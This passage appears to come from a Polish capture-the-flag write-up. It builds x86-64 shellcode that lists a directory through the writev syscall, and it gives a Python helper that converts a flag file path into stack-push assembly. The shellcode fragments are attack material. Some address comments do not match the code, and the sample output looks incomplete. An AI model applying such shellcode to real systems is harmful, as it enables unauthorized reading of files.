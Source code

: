 Szukając innego rozwiązania, odwiedziłem (stronę)[https://x64.syscall.sh/] dotyczącą syscalli. Znalazłem `pwrite64`. Niestety, po głębszej analizie i sprawdzeniu kodów błędów okazało się, że `syscall` ten nie radzi sobie z `stdout`.
{: .text-justify}
# Nowy, lepszy(?) write
Zapytałem ChatGPT, czy syscall `writev` mógłby się nadać do rozwiązania problemu. Stwierdził, że bez problemu. Oczywiście, nie działało to od razu, ale wiedziałem, że `RAX` zwraca kod błędu, który trzeba zinterpretować. Okazało się, że `writev` inaczej odnosi się do adresu niż `write`. Należy podać adres wskaźnika oraz ilość danych do zapisania. Proste, prawda? (po fakcie).
Adresy wybrałem na oko, aby uniknąć nadpisania danych z katalogu, i wszystko zadziałało.
{: .text-justify}
```asm
mov  rax,0x0000000000404048
mov  [0x0000000000404448], rax ; // Zapis wskaźnika (adres danych) do adresu 0x404248
mov  rax,200
mov  [0x0000000000404450], rax ; // Zapis długości (200 bajtów w dziesiętnym) do adresu 0x404250
```
Udało się wypisać zawartość katalogu.
{: .text-justify}
# Nazwa pliku na stos
Problem z nazwami plików polega na tym, że mogą się zmieniać. Ręczne wrzucanie na stos po 8 bajtów, w odwrotnej kolejności, staje się nużące, zwłaszcza gdy trzeba to robić wiele razy. Dlatego napisałem mały programik, który automatyzuje ten proces i może się przydać w przyszłości.
{: .text-justify}
```python
def path_to_pushes(path):
    # Ensure the path ends with a null byte
    if not path.endswith("\x00"):
        path += "\x00"

    # Split the path into chunks of 8 bytes (64 bits) from the start
    chunks = []
    while path:
        chunk = path[:8]  # Take the first 8 bytes
        path = path[8:]  # Remove those bytes from the path

        # Convert the chunk to a little-endian 64-bit integer
        chunk_value = int.from_bytes(chunk.encode('latin1'), 'little')
        chunks.append((chunk, chunk_value))

    # Generate assembly code for the pushes in reverse order
    assembly_code = []
    for chunk, chunk_value in reversed(chunks):
        assembly_code.append(f"mov rax, 0x{chunk_value:016x} ; // {chunk}\npush rax")

    return "\n".join(assembly_code)

# Example usage
path = "/app/flag10f5c6c3f04aae26ca6b"
assembly = path_to_pushes(path)
print(assembly)
```
Wynik wygląda następująco. Wklejamy to na początek `shellcode`.
{: .text-justify}
```asm
mov rax, 0x0000006236616336 ; // 6ca6b
push rax
mov rax, 0x3265616134306633 ; // 3f04aae2
push rax
mov rax, 0x6336633566303167 ; // g10f5c6c
push rax
```